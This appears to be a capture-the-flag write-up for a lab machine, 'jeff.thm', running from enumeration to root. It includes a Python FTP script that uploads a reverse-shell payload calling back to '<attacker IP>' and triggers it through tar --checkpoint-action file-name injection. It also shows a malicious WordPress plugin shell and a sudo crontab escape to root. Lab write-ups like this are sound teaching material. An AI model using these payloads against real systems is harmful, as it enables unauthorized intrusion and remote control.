# Enumeration

Nmap scans reveal ports 22 and 80 are open.





Investigating the source code of the web server suggests adding `jeff.thm` to the `/etc/hosts` file.



Let's use gobuster to look for interesting directories.



The uploads directory seems promising, but doesn't lead anywhere. Enumerating further with gobuster, we eventually find a `/backups/backup.zip` file. We cannot unzip the file as it is password protected. Use `zip2john backup.zip > backup.txt` together with john to find the password:


Now we unzip the file to reveal a `wordpress.bak` file, which contains a password.



WordPress didn't show show during our gobuster directory scans, so this suggests it may appear via a subdomain. Indeed, we can just guess by adding `wordpress.jeff.thm` to the `/etc/hosts` file and navigating there. Alternatively, we can also use gobuster to enumerate subdomains.

```bash
gobuster vhost -u http://jeff.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```



As expected, the `wordpress.jeff.thm` subdomain leads to a WordPress page. Navigating to the login page, we verify that Jeff is a valid login name.





Logging in with the password we found earlier gives us access to jeff's WordPress account.



<br>

# Exploitation

The usual techniques (e.g. changing 404.php to a reverse shell script) doesn't seem to work. Instead, we will use a [malicious WordPress plugin](https://github.com/wetw0rk/malicious-wordpress-plugin). Download the python script and run it to generate a malicious zip file.



The python script will also launch Metasploit in order to set up a handler. Navigate to the plugin page, click "Add New" and upload the zip file.



Activate the plugin and navigate to `wordpress.jeff.thm/wp-content/plugins/malicious/wetw0rk_maybe.php`. The meterpreter handler will catch the reverse shell as the `www-data` user.



Looking around, we find a `ftp_backup.php` file containing credentials for an ftp server in a container.



To access the ftp server, we use the following python script which will give us code execution on the ftp server. (To be completely transparent, I found this thanks to Google.)

```python
#!/usr/bin/env python3.7 
 
from ftplib import FTP
import io 
import os
import fileinput
 
host = "172.20.0.1"
username = "backupmgr"
password = "<password from ftp_backup.php>"
 
ftp = FTP(host=host)
 
login_status = ftp.login(user=username, passwd=password)
print(login_status)
ftp.set_pasv(False)
ftp.cwd('files')
print(ftp.dir())
 
rev = io.BytesIO(b'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker IP>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
emptyFile = io.BytesIO(b'')
ftp.storlines('STOR rev.sh', rev)
ftp.storlines('STOR --checkpoint=1', emptyFile)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', emptyFile)
ftp.dir()
```

Set up a netcat listener on the local machine. Transfer the script to the target machine and run it. This will give us a shell as the backupmgr user.



Note that we are still in the container, so we need to escape. We know that Jeff is a user, so we can look for files owned by Jeff using `find / -user jeff 2>/dev/null`.



The `jeff.bak` file looks appealing, but unfortunately we can't access it. Navigating to the `/opt/systools` directory, we find a message for Jeff.



Note that the `systool` file is executable and has the GUID bit set. Running it gives us an option to restore a password. If we click this option, we observe that it prints the text contained in the `message.txt` file.



Let's take advantage of this by essentially replacing the `message.txt` output with the contents from the `jeff.bak` file. Remove the `message.txt` file from the directory. Now use `ln -s /var/backups/jeff.bak message.txt` to link the backup file to the non-existent `message.txt`. This way, when the systool script calls for the `message.txt` file, it will print the contents of the backup file.



We now have Jeff's ssh credentials. If we `su` in Jeff's account, we note that we are in a restricted bash shell since the `cd` command is not permitted. To fix this, we can upgrade our shell in the usual way by using `python -c 'import pty;pty.spawn("/bin/bash")'`.

Now we can `cd` into jeff's home directory, where we find the `user.txt` flag.



The flag tells us to hash the output. For this, we can run `echo -n <flag contents> | md5sum` to obtain the actual flag. (Here, it looks like we have to guess the hash format.)

<br>

# Post-Exploitation

Using `sudo -l`, we see that Jeff can run crontab as root.



Navigating to [GTFOBins](https://gtfobins.github.io/gtfobins/crontab/), we see that we can use this for privesc. Run `sudo /usr/bin/crontab -e` to open crontab, which runs in vim. Now type `:!/bin/bash` and press enter to spawn a bash shell as root.



Success! From here, we can easily find the `root.txt` flag.

